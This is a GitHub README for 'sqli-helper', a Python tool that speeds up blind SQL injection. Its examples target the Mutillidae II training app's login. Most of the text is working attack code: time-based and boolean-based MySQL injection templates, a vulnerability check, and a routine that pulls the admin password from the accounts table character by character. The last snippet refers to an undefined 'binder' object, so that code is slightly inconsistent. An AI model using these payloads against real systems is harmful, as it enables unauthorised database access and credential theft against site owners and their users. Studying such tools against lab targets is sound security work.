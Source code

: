 # sqli-helper
Python module for speed-up SQLI exploitation (Blind or other)

The extraction use [Binary search algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) for define which candidate is the good value.

## Usages
(the examples are for Login of [mutillidae II](https://github.com/webpwnized/mutillidae) )

### Define the function who execute the requests

This fuction must match to `(request: str) -> bool`.

This function include then target specific logic (encodage, token, method, ...)

##### Time Based Injection 

```python
sleep_duration = 1

def exec_request(request: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' AND {request} #",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers)
    return res.elapsed.seconds >= sleep_duration
```
##### Boolean Based Injection

```python
def exec_request(payload: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' {payload}",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers, allow_redirects=False)
    return res.status_code == 302
```

### Check if target is vulnerable for payload

```python
# define the template of the Injection
# Basis MySQL Time based template
template = string.Template(f'OR (SELECT 1 FROM (SELECT(SLEEP(IF(($request)$test,{sleep_duration},0))))a) # ')
# Basis MySQL Boolean based template
# template = string.Template('OR ($request)$test # ')

helper = SqliHelper(MySqlConfig(), exec_request)
# Is target vulnerable ?
if(helper.check("SELECT 1")):
    print("Target is Vulnerable")
else:
    print("Target is not Vulnerable")
    exit()
```

### Exctract Data from a cell 
```python
# define the template of the Injection
# Extract text MySQL Time based template
template = string.Template(f'OR (SELECT 1 FROM (SELECT(SLEEP(IF(ORD(MID(($request),$index,1))$test,{sleep_duration},0))))a) # ')
# Extract text MySQL Boolean based template
# template = string.Template('OR ORD(MID(($request),$index,1))$test # ')

# extract pass
# the expected values are ASCII alphanum
candidates = SqliHelper.string_to_candidates(string.ascii_letters + string.digits)

binder.prepare_new(candidates, template=template)

result = binder.extract_cell("SELECT password FROM accounts WHERE username = 'admin' LIMIT 0,1")
print("pass for 'admin' : ", "".join(map(chr, result)))
```

More examples in 'example' folder

## Legal disclaimer

Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
